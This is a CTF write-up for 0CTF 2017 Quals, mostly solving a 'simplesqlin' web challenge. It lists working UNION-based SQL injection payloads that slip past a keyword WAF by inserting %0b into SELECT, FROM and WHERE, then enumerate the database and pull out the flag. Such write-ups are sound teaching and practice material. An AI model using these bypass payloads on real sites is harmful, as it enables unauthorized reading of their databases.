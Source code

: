 ```yaml
---
layout: post
title: "0CTF 2017 Quals - Write-ups"
lang: en
categories:
  - security
  - writeups
tags:
  - security
  - writeups
  - ctf
  - web
date: 2017/03/21
thumbnail: /images/ctf.png
---
```

## Informations

### Version

| By        | Version | Comment
| ---       | ---     | ---
| noraj     | 1.0     | Creation

### CTF

- **Name** : 0CTF 2017 Quals
- **Website** : [ctf.0ops.net](https://ctf.0ops.net/)
- **Type** : Online
- **Format** : Jeopardy
- **CTF Time** : [link](https://ctftime.org/event/402)

## Welcome - Misc

> Welcome to 0CTF 2017~
>
> irc: irc.freenode.net #0ctf2017

`flag{Welcome_to_0CTF_2017}`

## simplesqlin - Web

> http://202.120.7.203

The injectable request: `http://202.120.7.203/index.php?id=3`.

Keywords blocked:
+ `SELECT`, `sElEcT`, `%53elect`, `sel/**/ect` (not blocked but doesn't work), `/*!%53eLEct*/`
+ `FROM`
+ `WHERE`

`?id=2 order by 3` works and `?id=2 order by 4` doesn't so there is 3 columns in the actual table.

Keywords blocked need to be escaped, so we need to try some WAF bypass techniques. As you can see in the previous part (*Keywords blocked*), a lot of tricks don't work but I find one that is working: `se%0blect`, injecting a character that does nothing in our context like `%0b` (vertical tab) or `%07` (bell).

`?id=99999 UNION SEL%0bECT 1,2,3` 99999 is an out of range id so the `UNION` statement is executed. `2` is displayed in the `<h3></h3>`, `3` is displayed in the `<div class="main">3</div>` and `1` is displayed in the link `<a href="index.php?id=1">`.

Now let's identify the databse:
+ `?id=99999 UNION SEL%0bECT 1,user(),version()`: user: `news@localhost`, version: `5.7.17-0ubuntu0.16.04.1`
+ `?id=99999 UNION SEL%0bECT 1,database(),3`: database: `news`
+ `?id=99999 UNION SEL%0bECT 1,table_name,3 FR%0bOM information_schema.tables W%0bHERE table_schema = 'news'`: table name: `flag`
+ `?id=99999 UNION SEL%0bECT 1,column_name,3 fr%0bom information_schema.columns whe%0bre table_schema='news' and table_name='flag' LIMIT 0,1 -- -`: 1st column name: `flag`
+ `?id=99999 UNION SEL%0bECT 1,column_name,3 fr%0bom information_schema.columns whe%0bre table_schema='news' and table_name='flag' LIMIT 1,1 -- -`: there is only 1 column
+ `?id=99999 UNION SEL%0bECT 1,flag,3 fr%0bom news.flag`: flag: `flag{W4f_bY_paSS_f0R_CI}`

References: [1](http://sechow.com/bricks/docs/content-page-1.html) - [2](https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF#SQLi)
